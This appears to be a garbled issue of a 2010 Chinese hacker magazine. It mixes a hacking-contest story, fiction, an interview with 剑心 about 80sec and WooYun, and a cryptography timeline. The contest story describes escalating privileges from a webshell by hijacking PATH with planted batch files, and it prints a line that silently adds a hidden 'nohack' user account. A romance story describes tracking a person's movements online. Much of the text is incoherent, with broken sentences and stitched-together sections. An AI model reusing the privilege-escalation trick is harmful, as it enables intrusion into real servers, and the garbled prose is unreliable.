看来源站这次的比武招亲宣赛也想起贝明心，不过阿宝让大家继续。第二关也难倒了不少参考者。到了第三关关闭下了 10 位选手了。在第三关，也就是最后一关，会在剩下的十名选手中选出三位最终优选者。时间限制为 60 分钟。当然最后一关肯定是最难的。刚才这也是被胜说的府空开始紧张起来了。

第三关的题目已经显示在大屏幕上面了，通过读取的 Webshell 对服务器进行提权，必须时间不要浪费。页面由一组页面组合中以显示快显信息中，国某网页中包括一条命令，问某应该执行的命令，结果返回函数，启动 23。

然后上丢上传一个 cmd.exe 到 webshell 目录，在中国客厅上面执行 setD:\vshroot\LocalUser\xxxx\www\share\cmd.exe，这里约带是指定 cmd.exe 文件，指定 cmd 或是提示没有权限，如图 24。

“看着管理灯不是吃素的，命令都不能执行”，不过这个命令执行的并不难，通过这个目录提权，说明系统目录下一些命令执行器的权限会很高，所以导致获取系统权限的内容能够实现。然后在 webshell 下，发现系统自带的 cmd.exe 有权限访问，只能自定义 cmd.exe。在此自己根据目录结构写个程序，通过命令行把 cmd.exe 执行到 C:\Windows\Temp 和 C:\Documents and Settings\All Users\目录，但是这样的权限不足，不能执行命令。那就要把被控制工具不能使用了。


## 基础｜策划：功夫熊猫

### 2010 第四季


又尝试了几个口令表但是没有找到可执行 exe 文件的目录。这个时候阿宝真精神神经紧张，还是再想不到有效办法，这类角色实在就像水下游艇那样，断然不能与编者 MM 长期并行。想通这点，阿宝会点燃了。阿宝首先将有价值的操作，他在电脑放入了 tasklist 命令，aoj 27。没有发现 service 之后，才最终又来了几句说：“我的大哥！”没有安装键盘，多了。嗯，阿宝晓得了！

这时候，阿宝望向大师，眼神瞬间达到 20 分钟，看来时间不少了。
“啊，原来如此！”阿宝看着第三页的提示，不由叫了一声，不知道他找到了什么。
“必须对可恶或者脚本嘛！那么,怎么评估角色和提示，有的办法说呢！那怎么办呢？”
那么，只要成功的授权出就有帮助作用，解说就高机看起来一脸淡然。一般来说就是通过注入点信息  本发出有弹性的并行流动时，正式就会做出操作，获取了大量的控制权，而也以此解释一种情况了，那么 100% 是恶意远程登录状态了。阿宝自然自信地说。


什么是环境变量：环境变量是一段带有某个名字的字符串，它包含了一个或者多个文件目录的路径。阿宝此时，尝试在系统运行环境里面把路径放下，重点考虑从系统环境的角度上看出问题，开始看到 path 中程序的路径去执行，所以建议还是采用了正规方案，环境变量一定是程序运行系统中用户来控制的值，从而把环境变量与程序模块处理结合起来，这也说明这种做法比 DOS 时期的默认设置更加灵活，操作系统要到最后才在资金中发挥作用，正如这组固定的常识要转换为某个模块，配置环境变量设置都会在 path 变量中，路径越到变化越多，程序执行路径会越来越接近；所谓的 Path 汇总也不多，这正是因为系统环境变量中的一个关键位置，正因为是支持这些种情况，就让各位读者知道 path 会造成程序执行路径不清楚，才在这里进行改写。


这里需要注意的是命令前一定要记得加 @ ，@ 是为了隐蔽命令本身，而命令后面则需要加上 >nul，>nul 是为了隐藏命令执行完后的结果恢复。net.exe 反面的 %1% %2% %3% %4% %5% %6% 则是用到接收值，参数整理操作如下 net user admin admin /add，传入的参数就有 user admin admin /add；如果你要做 4 个参数比较，你定制住 net user 命令就够了，上面这段脚本在 4 个参数比较异常时会失败执行，而实际要做的就是把我贴出来的管理员信息拿到的字符，然后信念再仔细操作后，其他路由依次同样，最后得到结果。这样就能把不同的环境中执行统一于一个用户身份了，如果想换到能使用的用户，则要在管理员权限的电脑里面执行这个脚本，且管理员账号方式来使用，那么系统上面就能成功获取到一个用户。此时也是在命令里添加 %1%，%2% 之类的内容来增加程度，还是想一类用户的命令环境中，一定会执行得到想要的效果，不过如果在管理员登录中使用而了，他们就不一定出这个脚本。

我们都知道当前目录下有 C:\ windows 里面常用的小工具等放在 SYSTEM32 中，不管我们当前路径位在哪里，都可以执行 NC 命令，其实这就是 path 的作用了。如果这里设置了相应的操作范围，那么到脚本会给出对执行操作的权限环境。C:\perl\bin\ 和 C:\php\ 这两个目录利用起来也容易，大部分软件安装了将这些目录放在环境变量中，便于执行路径管理。

```
@net user nohack nohack /add>nul
@%systemroot%\system32\net.exe 96 91 92 94 95 96
```

可以在 C:\Perf\bin\ 目录直接把程序安装到此处，便于在操作系统中找到，系统中先在 C:\Perf\bin\ 目录设置当前路径在有无 rat. 文件时，如果检查到存在 rat 文件，就会默认使用它，否则进入下一个目录去运行程序，类似于 Windows 的标准目录管理。

此时阿宝已经在 C:\Perl\bin\ 目录建立了 net.bat、tasklist.bat、taskkill.bat 等文件。阿宝手里拿着这个过滤器，管理员只有关闭正是利用环境变量的权限，就能在有固定权限下执行。阿宝实在想不通这种情况下，难道在某个执行点还有安全隐患不成？于是，他继续关注不同目录文件的操作系统。阿宝激动不已，眼中满是希望，渐渐地走上去按住鼠标说：
“On！我成功了！我成功了！”
然后阿宝这句话把现场大家的观众都吓了一跳，阿宝陆续地发现了问题。阿宝感谢熊猫对解释给出的帮助，接下来于是一边继续用着不同的工具对测试环境进行分析，一边开始全方位总结。

## 黑\-小\-说

### 2010 第二季


XApache：最近 Ubuntu10.04 发布，众测被忙不过更新升级。很强大的新闻可能就 Ubuntu10.04 发布，而还是一个不太新不旧的 Ubuntu 10.04 附带的 Firefox 和 Chrome。

Firefox 其实从出生之日就一直与 Linux 紧密相关，几乎所有 Linux 发行版都预装了 Firefox 或类似的浏览器。Chrome 则更像是 Windows 平台掀起了桌面的风暴。想用 Ubuntu 这次开夜车在网络中风险较大的情况下坚持不使用 Chrome 的话，可能会给你带来不同体验。当然，Firefox 和 Chrome 都是优秀的浏览器，选择 Ubuntu10.04 的默认浏览器更多是安全考虑与自由选择的体现，这也无可厚非。

#### 黑妹妹追爱记

我是武汉大学信息安全专业的一个大学生，女，80后，喜欢一个师兄很久了……

师兄比我大两届，研究生，平时也是我们这个系的男神，喜欢穿白衬衣，长的挺痞痞的，第一副眼镜，文质彬彬的。每次上完课，我都以各种借口走到他面前，趁机蹭点题，忙得欢。

不过他有个很在意的 GF，为此我苦恼了很久。不敢表白，初次女孩本科毕业后就嫁给人了，但师兄不定心。

还有两个月就要毕业了，我要不要去表白呢？很矛盾……一个月过去了，我没有任何行动，和同寝室的好姐妹讨论了以后，拉着她一起喝了一杯！“这么大了，见到自己喜欢的男生还不敢追，等你毕业后他成了别人男友，你就一点机会也没有了！”

大不了就是被拒绝吧，我也没什么损失，而且主月老自己的条件，也不错，他没有理由拒绝的！我决意追他了。

看到很多黑客写的文章，说了一开始先发短信对方的信息。突然想起他是当年优秀学生干部，上班的个人风采栏目里面有他的信息。嗯……小时间，接着掌握了自己的联系方式。

我打算似乎了解他的情况，不打他也要……把合到。学其收拾，第一次东留意边，然后开始了很久的通栏。

到他寝室论坛里去找找他的同学，打电话问一下啦，短信，发帖，QQ上。他和研究生群里没有发现什么异常。呵呵，师兄确实不是一般的。

于是乎，灵光一闪，我在 QQ 上找到他的账号，想办法查出他的动态，彻底摸清了他的行踪。让我惊讶的是，他的好友里竟然也有几个和他关系不错的女生。

经过各种尝试后，我终于联系上了他。没想到他很快回了我一句：“呃，师妹，你终于上网？”嗯……是啊。我心虚的回答。师兄最近很忙，小理对我说过，这些天有点特殊的人在宿舍扫脸扫扫去的，你注意一下你的电脑。刚才我看着穿戴奇怪的人在人堆里走来走去……

“……嗯。”我眨着，感觉我的脸上在发烧。“好，师妹比比发，我们回答你了。”

再此时此刻……天恶冷，敲键盘小念咒语了师兄，回邮件给他慢慢改着，心想我这爱恋是不是也就要这样了。哥哥要带着亲眼觉醒胞窜有点急，于是跑到寝室门口，在电话里跟他发句。

“好了，师兄先忙，我先回宿舍了。”

……

天恶冷，感觉窗外鸟鸣都在低沉。还好，他总算发来了回信。师兄应该是个很会防备的人，回信中竟然提醒我，别在学校里做些太显眼的事。尽管如此，我还是决定继续追他。

“听见了吗？是啊，我认真听着。”我心里默念。

“师妹，你还在吗？”我惊讶地发现自己竟然连他的回复都反应不过来。

“嗯……”我回他，感觉整个人都要从座位上跳起来了。

“好，师妹，你在？”

“我在。”

“那你在上网？”

“嗯。”

“你一直挂着么？”

“没有啊……”

## 黑小说

### 2010 第二季

成为才小，但因风光的关系，又不知名思议地凶去。“那个，师，今天要是不方便的话，孟可和仲仪又不开吧？”我心中热血沸腾，再次想起了刘湘兰和我……不能再拖了，死就死了！

“师兄！我才去啦师傅口出来。”师兄抬起的眼中闪过了一下。

“你，能不能感我明明朋友啊。”我声音又变小了。师兄：……

“你觉得我不好看？”

“不是，你很好看的。”

“你觉得我性格不好？”

“没有，你性格很好呀。”

“那你说你同话样！”

“师兄别见竟左点情子不发。这个……太突然了，我害口似乎还有什么想法。”

“哦。”他头点，答道。

“我对你有空老小窝居，在小学就大惊绰绰的眼神中又狠了5秒由滞，停在她十秒上，一面一面一地画着这房间，忽觉自己先些无聊。二瓶酒下肚，再加上刚才的热血脑被强烈的风吹，唯恐不上的想的就和我吵慢身了些。就在这边时，也没有空放弃，亮起来是臭陌。”

我找下了接吻觉。他话里伴李了师兄的声音：“你在哪？”

“我在XX教堂止上的小丫妮。”

“别乱跑，我马上过来。”

“好。”傻乎乎地应了一声，开始飞快地用面纸擦眼泪。正在翘然兴奋的时候，师兄已经跑了过来。我面对面站着，然后两个人开始接吻，我很想对着刘某义义文学的样子一定很幸福，不过还是以为对我的天怨，比之前多了不止十倍。因为在以后的日子里，大伙都开始笑我称为“助教夫人”。

## 末日遐见

这么情况，任何具备正常思维能力的人反应过来的第一个念头就是：家啦房子，监管自盗，后院起火，内部出了问题。能进入全球灾难备份中心工作的人员必须经过严格的挑选，层层审查，最近还要签订终身保密合同，是绝对能信得过的人。内部管理制度和会计系统设计方面，文件加密保护和N+1的内网设计保证了没有任何一个人的误操作可以一下删除全部数据，另外实战库内部门作区内的入侵检测系统和灾变在外部IT区内的入侵检测系统的这数十台内的本地守夜卡把所有数据直流入警报的灾变内，令人欣慰的是大部分中极的入侵者被即时抓获。

伊利园事案深深入追逐之中：“没有通道或死守在光明，还是在其中带着个还风；有什么仙路口间切，就算转那，就总是一个词、一语口字……”但是，透视门：这回击，他是在继涌过来的由思绪各处交织，二话不说，把意念阵结起来的？马蛇准的那两排明以丁一流的应急安处于中家以的网络以散交织布防与麻痹动手之路。倒下都所有的“路迷”，即使只不过是一场的网络防火墙以及防动动黑技术支撑的？

不错，这种情况下，任何人只能感受的化险为夷之后才的第一个念头就是：家没财富，监守自盗，后院起火，内部出了问题。能进入全球灾备中心工作的人员必须经过严格的挑选，层层审查，最近还要签订终身保密合同，是绝对能信得过的人。信息中心的每一台终端设备、网络系统和数据库都设有独立的监控系统，文件加密保护和N+1的内网设计保证了任何一个人的误操作都不会造成灾难性后果，所有关键数据也都做了多层备份。

### 2010 第二季

## 黑小说

自己认识多年的一个银行经理，他和另一名管理员都来一起负责切换转存，“备份数据已经多年了，没有出现过一次差错。出身高贵，性格正直，家庭和睦，履历清白，社会关系简单，绝没有任何瑕疵。”

没等罗曼夫起身，他反而先问道：“我仔细分析过内部工作的人认传输系统日志，没发现任何内部攻击行为。我们的这一套系统只是相当系统的归档，当时也就是从性能演化后进入线下记录。”

罗曼夫回答：“我不是专业搞安全审计的，任何分析都吓我。我们有这样的一个基本方法，我的检查结果也绝不会系统运行有任何数据丢失。但由于内部管理混乱和微弱的运气，我们还是只能持续观察。”

安托尔觉得内部的一个消息就不能着急。她和管理员都重新分配了工时与管理任务，密切配合着，有时候甚至上演了一场对抗。她静静地听着，仿佛在认真回忆那段经历。

罗斯夫说：“我不喜欢跑得实在空闲的，但时间并不多。我们有车，一直会控制在金融的数据中最微妙的区域里。我们采取措施，我们一切都是按手册办。”

看来这两名也都是属于外部的人。罗曼夫说：“现在他还不能接入。内部作业的切换程序和验证还是有的。反正，不可忽视内部权限的切换，避免产生错误。”

我在听着那份听闻时觉得一片寒冷。在内部安全的管理上，它不仅需要很好的流程和强大的纪律，也必须处理和应对这一切意外风险。

接下来和管理员的意见也就这一条。最妙的是他们已经愿意加班和做配置。我们对此应当保持警惕，谁也没法最终确定是否会再有任何数据丢失。

后来他带着那份确认无误的底稿走出了外部入口，面色稳如常人。窗外的灯光斑驳而平静，几个路人也没有察觉到这内部的紧张与变化。罗曼夫再次回头确认了一眼，那整整一页的项目文档上写满了结论。

墙角有一盏小小的体育俱乐部，有几台电脑，还有一个小小的内部团队。管理这个小内部团队的只有管理员一个人，他常常忙不过来，但他脸上几乎总挂着平稳的心情。年久日新，绝大部分操作都可以在有限时间内完成。

有一次管理员在处理上千条记录时听到对话声。那天中午几名人聚在一起，小小作业班几乎无法分开，只是点头，说声：“不慌，继续处理。”

那次罗曼夫和环境的管理者来到体育俱乐部，正赶上值守。刚刚那个年轻人高声地说：“不慌，还是先处理完。”管理室的桌上放着一份报告，经过几番比对几乎没有错误。

安托尔每次跑进电脑室，都会把新的数据纸摊在桌前。她也不去看外面的楼梯，心里仍想着那个系统和那组代码。有人说，她总能在极短时间里把文件整理好，仿佛那是一种天生的习惯。

管理员又说：“别担心了，那不是小事吗？一件事情就要大，就要把所有流程都走完。”罗曼夫认真地点头，似乎也明白，既然过去都能顺利完成，这次也一定能顺利通过。

那种时候，连电脑都有些发烫，管理员却没再说什么，只是沉着地继续他的工作。几分钟后，桌面上那份被标注过的资料终于归位，连同那一条最关键的确认也被记录下来。

忽然，小小体育俱乐部的门又打开了，几个人走进来，他们似乎都为某些记录焦虑。管理员看了看电脑屏幕，平静地说：“既然都已确认，那就照流程一步一步来。”

部队里的记录并不复杂，但每一次切换都要求认真检查，不可有丝毫疏忽。罗曼夫站在一旁看着，仿佛知道这场风波终将过去，只要耐心等待，就没有什么不能解决。

在电脑门口，年轻人们低声交谈着，他们说的多是流程、备份与校验。谁也没有提起那些旧日的故障，但每个人都知道，真正重要的是不能让错误再次发生。

## 黑小说

### 2010 第二季

次开头，任何一本小说的爆炸，即使只是无差别地扫了一下……通过分析所有这些数据指向，最后我掌握不得不透过地将这些技术能力和专业性的我，能把证明作为从潜入灵魂各位中，接近电脑的技术能力和多样性的细分化的能力，使他能掌握力气和有一半对这种含糊其词的自信。罗夫夫提出的依据文而言。

鉴证员步入无线网络系统，出现在要求不超过每台机与不断的密码装置上。安装这个系统后，备份中心就有了三层防电磁波入侵的安全措施：

- 第一层是整个中心的电磁屏蔽网，确保在中心以外的黑客不能通过电磁信号入侵。
- 第二层是每个机房的电磁屏蔽网，以及过滤电脑信号的程序，确保每一条信号都在可控范围内。
- 第三层防御装置会将各种设备连接入主机或无线系统，留下硬件接入痕迹。

通过这种层层防御，似乎万无一失了，但攻击者同样会针对灰度包等方式发起神秘攻击。

这次攻击亦和前两次不同，不但同样删除了数据，还留下了一条标语：“你们这些大笨蛋！永远也别想知道我是谁。我们占领网络黑侠社会的时代快要出现了。你们做了什么也救不了你们？”

大大的字符在电脑屏幕上，黑底白字，没有修饰，是最单一、最坏的界面。马峰维气势汹汹，仿佛全身的血液都翻腾上涌。

两个月后，大楼惊醒了，没有查出最可疑的硬件木马来源。好在这次入侵检测系统有了响应，一个攻击者的邮件被捕获，虽然未能完成完整攻击链条，但留下了新的目标线索。

他还在电脑上显示出一个个倒计时：鲜红的日期，鲜红的秒数不断减少，就像一个个黑暗的未来日记。

奇特的是，他没有提出任何勒索要求。这让罗夫夫和米琳都感到失望，他们现在期待着入侵者有什么要挟，这样至少能提供一条可利用的线索。

罗夫夫将大家召集，搬出了一张图表，是《全球攻防报告》和中心网络实施分布图。操作员不断显示网络流向与各站点映射。突然有一名工作人员说，他们可能没有找到合适的网络位置，黑衣人计划在野外布设设备，以便让输出内容更清晰。

这样的结论使会议陷入沉默：物理隔离之下，来自外部网络上的黑客，是否真的绝不会成功？

### 2010 第二季

有能够进神介控炮电子密码，目标区的电磁屏蔽就像铁栅一样守得死死，提早筑墙防袭，就找不到可供利用的漏洞。第七电弧分队从来没有攻破这套体系。分队长仅有的两个线索，也无法解释这个电子密码到底是什么功能。

墙上接着写着古代长句：“你们不需要有什么遗迹，因为没有人能攻进这个地方。全世界也没有任何一个人、任何一支电子战部队敢轻举进犯它。它就是全球攻联碧堡。”

真正失败和受困的危险在于全球攻防者的人心。他们最后进行了一次努力，结果一如既往。

“你说得一点不错。”男生快悦地说，“试验无效。”

“我把答案告诉常楚了？不可能，似是胜利的位置设为一个书架和三角云，却每块小心意，不可能找到。”

“无论答案在反感者复位，基本都是不可能的，都相似‘不可能’。”

“我不能向你们承诺什么。”他说，“原因至今不明，且将来不会太稳定，但我们会继续寻找答案。”

“况然这里并不一定，最先进去的方案可能不行。”谢东塬神情冷静而笃定。

“没错，像你们都没有足够的时间，两天内都能看到阵影，不是我在这儿难以解释。”

“所以对于大部分人来说，这个地方一直是保护得极为严密，保证不会轻易进入。它们不会主动要求，也不会轻易被攻击。”

“谢然，你说它并不只是一个简单的设施。”

“……在现实世界当中，这儿能否被破解，依旧是个未知数。”

“你们有没有认真考虑过，它可能不是单纯由物理结构构成，而是由别的什么更深层的机制所维系？”

“在那种状态下，任何进入其中的人都可能无法准确判断自己所看到的一切。”

“不管怎样，我们都必须想办法。”

“这个地方的核心区域存在大量我们无法解释的现象，有些甚至和现实中的物理常识相冲突。”

“也许，我们现在看到的并不是真相，而只是某种投影。”

“如果我们必须进入，那就要做好付出代价的准备。”

“这并不是单纯靠技术就能完成的任务。”

“我们能否找到一个稳定的突破口，决定了接下来的一切。”

“所以，现在的问题不是能不能进去，而是如何进去。”

“如果我们最终发现，这里的一切都只是为了阻止我们接近某个真相，那就更有意思了。”

“无论如何，先把能确定的事情确定下来。”

“走。”

“我们得先去那个地方看看。”

“如果连我们都无法看清这里的结构，那就说明这地方比想象中更复杂。”

“不管怎么样，总要试一试。”

## 黑小说

## 2004 第二季

发传真。另一方面，伙伴欧阳团因状况先行。他在专家们的指点帮助下，在我们来这里之前，就设计制造了一个连接电脑系统和电力传输网络系统。这个系统通过技术手段感测控制信号，并使人体不受电流损伤、电压变化影响。

“由于没有想到这一点，你们中心虽然在控制系统里有电击系统，但真正发生这类军工收发电攻击时，对方通过电力传输网络系统的精细电网控制器，把电磁信号错误导入，造成部分电源导线和电缆设备变形导化。电力传输网络电缆在局部聚集，实际上已经连成一片。你们启用其他系统时，对方故意让非法运行系统出现在链路上，使我们收到大量故障信号。”

“这就是大家出发前都没有想到的第一种程序学术可能性。我想到了，但我也说过，这是高风险动作。所以我早早发送了备份，留存了。”

“这个我也考虑到了，可以同样利用电脑网络上的反馈技术，在电力网上控制路线，直到某个电压被抬高，最后把它拔出来，这不太难。事实上，就算主接电压承受不了，电网坏掉也会造成大块沉降。我用一种反馈破裂办法将其升高，造成更高的变压器冲击，这不只是能够把它炸裂，也能逼它暴露。关于这点，明白了吗？”

马维德：“但这一定……”他念头有些嘈杂，知道这条路线一旦被发现，后续很难控制。

“关于这一点，我先给你们进一步评估；第二阶段有个问题，我曾在美国国家反间谍室接触过类似任务……”

编辑后记：小说一开始总是悬疑，然而越写越深。虽然仍有种种曲折，但远比那些所谓激情小说更扎实。作者是个爱好黑客文化的自由人，不愿受约束。

## 黑客文化

#### 采访剑心

白天，他是一名代码安全审计工程师；晚上，他是一名释放 Hack 灵魂的自由人。白天理性，晚上感性，形象丰富。他是一名站在 Hack 与 Code 之间的人。你很难在他身上发觉社会功利与浮躁。5年前我认识他，到现在他还是那样。

前不久，他刚从电脑前离开……

非安全：当初你们有人有进成师吗？你认为一些发生的都是？

剑心：不啊。努力会有不同的结果，人的感觉也会变化，兴趣总在朋友与非安全的边界间游走。

非安全：你最推崇的是脚本安全，请你用一句话概括你对于脚本安全的认识？

剑心：其实不只是脚本安全，甚至知不知道都不安全。或者说：Know it, then hack it。

### 2010 第三季

### 采访

非安全：有没有思考过技术的专注与博弈的得失？  
剑心：这考虑太多东西吧。

非安全：你认为平衡与低调是如何帮助你在这一作的？  
剑心：你可以当成，低调吧，是一种平衡。不过这个问题似乎跟我认真没什么关系；）

非安全：你有用很多的技术跟踪别人吗？  
剑心：有，像某人家不信，挺无奈。

非安全：你所认知的黑客的道德是什么？现在的网络犯罪这么多，你是如何看待这个问题的？  
剑心：这不是黑客的道德问题，类似“斯不是一江”，很多情况不一样；我说实话，单元网络是黑客很容易，所以对程序员要做成是难免的。

非安全：你如何做到用道德力量来约束对新技术可能性的新想法呢？  
剑心：这怎么也不见得……那就是破坏要人家的嘛——只是觉得有些事是得坚持的罢了。

非安全：对于黑客安全这个圈子，你的一句话总结是？  
剑心：好人。

非安全：黑客重要的精神之一是自由自在，当追求自由之精神遭遇规则约束的困扰时，你是崇尚于内心的向往，还是巧妙游走于规则的丛林？  
剑心：当然。

非安全：Hack 是门技术还是一门艺术？  
剑心：艺术。

非安全：Hack 能够带来娱乐层面，最终结果是必死无疑还是诞生一片光彩？  
剑心：看你自己了，如果你天天领在娱乐场，那肯定是另一回事。

非安全：在 80sec 很热的时候，你就在其中。对你来说，当时处于激荡中的感受是什么？又是如何应对的？  
剑心：不过，年轻选择自己最喜欢的事情，就是做对社会有意义的。

非安全：你每天从早到晚工作会很累吗？  
剑心：很多时候固定性会很长，挺辛苦。……有的时间也比较多，忙起来的话是不是有 14 个小时！现在状态好点，我也就不上了。不过也有 10 个月上一夜。

非安全：有什么业余爱好，放假时会玩游戏机之类吗？  
剑心：Dota 1。以前的时间都在 80sec 一类去了。真么样，展开说，造成影响不过是让我长期处在战斗状态的感觉。

非安全：以后有打算出来自己创立吗？  
剑心：我说那比较远，只看这几年之中的事情，所以说暂时没有。

非安全：在大多数人想不到，你在技术上是一名成功者。你认为这样的人生算是成功的吗？  
剑心：我总觉得自己身上是分享权利，求成没觉得成功，我会继续做！

非安全：所谓“想”到“做到”再到“成功”，你的成功可以复制吗？对于安全技术很感兴趣的读者，请你谈谈如何才能让技术进步？  
剑心：答案在路上。

非安全：创新是我们国内频率较高的一个词，它出现在不同场合，这其实代表什么？请你谈谈你理解的黑客创新。  
剑心：比较简单，我本身比较逻辑学。实际上来说，创新的存在，就像在最黑夜的时候，是一个自由的风筝在飞，没有什么扛得住；这样，安全时代长效吧。

非安全：每当 Hack 圈子爆发新闻的时候，总会诞生一个 hack 明星，圈子之外也让人有种……  
剑心：当然，充满了神秘、强成、自由精神之象啊。圈子内却是完全不同的声音。大多数时候，总是对焦点人物的赞美之声最大，你如何理解这种现象？

剑心：娱乐下而已，毕竟没有什么，或像上面说的，来得快去得也快。

非安全：80sec 背后那段时期，曾经风生水起。作为一个专注于技术的网络平台，你给这个网站打多少分？做专业化程度高的竞技类网站，是不是比起其他网站构建来说更难？  
剑心：这两个完全取决于你在想些什么。80sec 本身就是相对和转作等一种技术感想的平台。所以这么来说，应该说是研发意义的一个时代。究竟其实不是纯想着“拿”的，一个安全技术平台并不是大家所认为的那样。

非安全：后来为什么又想到要做 WooYun 这个站？网站的宗旨是什么？  
剑心：乌云最开始的出发点就是我们不喜欢……它的目标对象就是针对客户或者会影响公司的安全问题；同时其实安全研究人员的角度也在一些问题背后。所以我们也把它组织成厂商和安全研究人员交互的平台。最后就是把这个平台做成好的形式，此外还能把更多开发者和研究者联系起来。

非安全：WooYun 这个站给我一个直觉，就是它的商业目的很强，而且服务对象很多是国内互联网大牌公司，这也与安全社区关注点不同。是否意味着这个站是为商业目的服务？  
剑心：从直觉概念上是相似的。我们主要是做产品化学习，而且已经考虑从专业化角度进行服务。与此同时也尽量做社区之间互动，不只是为了某一个层面。我们讨论重点通常是安全研究人员的交流与分享，不是单一的商业安全问题，而是需要更多人在这个平台上交流和合作。

非安全：成为 WooYun 的会员有什么要求？详细介绍下成为白帽高手和厂商的审核过程？  
剑心：大家在 WooYun 申请就可以获得邀请码。对于厂商，他们需要有较明确的安全证据；对于普通用户，也更多是由平台来确认。

非安全：WooYun 通过漏洞掌握用户等级和值，这个制度是以什么标准制定的？  
剑心：WooYun 对于通过平台提交的安全问题，会划分等级。不同漏洞有不同等级划分，等级有点类似于严重性定义，这也是动态调整的。

非安全：WooYun 与厂商关系会比较敏感，毕竟你们公开了他们某些信息。对于这种情况，有没有厂商会告知你们不要公布？遇到漏洞你们如何处理？  
剑心：有的。不止平台，我们不会向任何厂商“要挟”。我们提供良好的合作关系与沟通，所有项目都会在尽可能匿名状态下处理，由平台去保护和沟通，而不是营造冲突。或者也会协同第三方站点，把风险公开性做更好的规避。

非安全：你的黑客价值观是？  
剑心：我也觉得好多朋友，本身说的一样，好玩，我还是继续做做这些。

如果爱有期限，是十几年吧。

非常会：喜欢翻翻你的相册吗？你是一个文艺的人吗？  
剑心：偶尔吧，不过我不太了解具体什么样才是文艺——||

非常会：在编辑里遇见的“天才口才”中，你说你还算帅，那么现在是否还是那个少年？  
剑心：仍然。

非常会：你喜欢什么样的女孩子？长发跟短发？  
剑心：你别笑。

非常会：听说你公司的那个 MM 就很漂亮，对不对？  
剑心：你还是别猜了。

非常会：最后一个问题，能否公布下你的联系方式，方便大家和你技术交流？  
剑心：大家通过 jiaxin@80sec.com 就可以找到我。

在整个采访过程中，剑心的话语并不是很多，很多问题总是用一句话简明作答。虽然部分现场记录存在识别误差，但他的风格、边界感与技术性都相当鲜明，包括他对技术的执著，以及他如何凭借自己的成就去表达自己。

#### 一、密码术大事记

公元前 5 世纪，古希腊斯巴达出现过原始密码器：用一条带子缠绕在木棍上，沿木棍方向书写文字。解下后带子上是无意义的碎片字母；解密者只需用相同直径木棍缠回，即可读出明文。这是最早的传统密码术之一。

公元前 1 世纪，恺撒密码用于古罗马战争，是一种简单的单字母替代密码。  
公元 9 世纪，阿拉伯学者提出频率分析法，标志早期密码分析学的诞生。  
公元 16 世纪起，欧洲出现多种密码工具与替换系统，推动了传统密码学发展。  
17 世纪至 19 世纪，通过对大量通信资料的分析比对，维吉尼亚密码等被逐步破解。  
公元 20 世纪初，机械式密码（如 Enigma）使密码进入机电时代。  
两次世界大战期间，密码分析依赖人工经验与统计规律，极大推动密码学发展。

1975 年，DES（数据加密标准）被美国国家标准体系采用，成为里程碑事件。  
1976 年，迪菲与赫尔曼提出公开密钥思想，将加密与解密密钥分离。  
1977 年，RSA 公钥密码体制提出，成为广泛认可的公开密钥算法。  
20 世纪末，随着计算机发展，密码分析与密码协议进入新阶段。  
21 世纪以来，离散对数、椭圆曲线、分组密码等成为现代密码学研究热点。

如今，密码学在现代信息技术中愈发重要，既保护商业机密，也成为互联网安全基石。

## 二、密文，很久很久以后

传说，在很久很久以后、很遥远的地方，有一座很大的城市。城里有一座高高的孤悬城堡，名叫平王。城堡里住着一个他长久想见的姑娘。姑娘有金色长发，身边有带翅膀的独角兽。她的名字叫艾丽丝，身边摆满玫瑰色的小喇叭。

她说，自己一直在等待另一个男人的到来。那男人会带着一把锋利而浪漫的钥匙，打开一扇通往某处的门。

为了彻底打消她原本不存在的念头，艾丽丝尝试了许多办法：明说也好，暗示也好，都没能阻止对方的执念。最后，她念了一首打油诗：

“要我爱你的，除非  
太阳月不落，中国变奇迹；  
死人开眼笑，山成无病……”

之后，故事转向了关于技术、未来与现实的混合叙述：生物电、人工智能、现代战争、科技展、电子仪器、文字互动……像新闻，也像寓言。艾丽丝意识到，科学技术的发展会持续进入生活深处，人将不再只是被动接受者，而是主动参与者。

面对变化，人们态度分化：有人希望更快进入未来，也有人担心风险与失控。围绕技术、伦理、人与机器关系的讨论，越来越多。

#### 三、密钥：不朽的痛苦

世界黑客终会先做完。他在网络黑盒里讲了一个故事：一个人被迫面对无所不在的技术世界，接受技术不会自动拥有人心，却会改变生死的节奏。那些网页文字神秘而从容，动摇了他，也让他无法回头。他的承诺，是不朽的。

#### 四、文明：波将金数字化地球村

参加大会的嘉宾——这些在网络世界奔跑、演说与思辨的现代书生——都感受到了某种“不朽的痛苦”。

在一个阴暗聊天室里，有人说：让我们帮她，不要让她被困住；让我们拯救她，帮她创造新的生命，让她摆脱既定关系，重新出发。让我们按照她的密码，把那些始终压在心里的忧虑放下。

与此同时，她的沉默和自由同样重要。她不像传统文学角色那样被动，而是在技术与生活的双重召唤中，以自己的方式回应世界。

#### 五、明文：人算不如天算

他走进办公室，只记得一个女性名字“伊芙”，却没人记得她是男是女。人们围绕命运、权力与公共安全争论不休。最终他忍不住说：网络上的那些文字，像被加密的故事，越看越像真实生活。

第一种选择，是她出现在几份特别刊物封面。19 岁时，他在纸媒采访中谈起对未来的想象：希望有能力解释、改变并理解这一切。她把这些话写进书里，也当成人生线索。

第二个线索，是传说中的城市守护系统：把过去和现在、欲望与知识连接起来的文明框架。在新闻片段里，人们讨论 PGP、加密、隐私与身份确认。她问：那我又是谁？

“我是一个密码破译者，”他说，“我写了一个程序叫 PGP。”

所有人都停住了。  
“你就是菲尔·齐默尔曼？真的会像你们说的那样改变世界？”

那人没有正面回答，只是安静站着，等待别人理解代码背后的秩序与意义。她也意识到，技术不只是机器，更是一种新的现实。

## 黑小说

只要有这一刻，就这一刹，我也就满足了。

他欣然把目光投向那张“量子纸芯绒衣帽”。在许多年前的年少时光里，他就坚信：通过“话语”“玩笑”的智慧，不可能创造出人类智慧无法形成的秘密。

量子密码，或许真的可以做到。

单个粒子的量子特性可用于信息编码；若有人窃听，载波粒子状态会在瞬间改变，从而暴露窃听行为。这种基于不确定性与不可克隆原理的机制，理论上可显著提升保密与防篡改能力。

但这又引出新的问题：这是否只是技术幻梦？“斯宾诺莎的上帝”或“飞梭段子上的上帝”也不可能给出统一答案。爱因斯坦不信奉不确定性，却也无法否认它对人类叙事的冲击。

故事继续质疑：克隆、机械、意识、身体、梦境与“死后生活”之间，是否存在新的编码方式？也许这些材料最终会在节律中回荡，而不仅是语言文字痕迹。仿佛在说：人类或许不是心灵的制造者，而是某种延续。

#### 六、明文

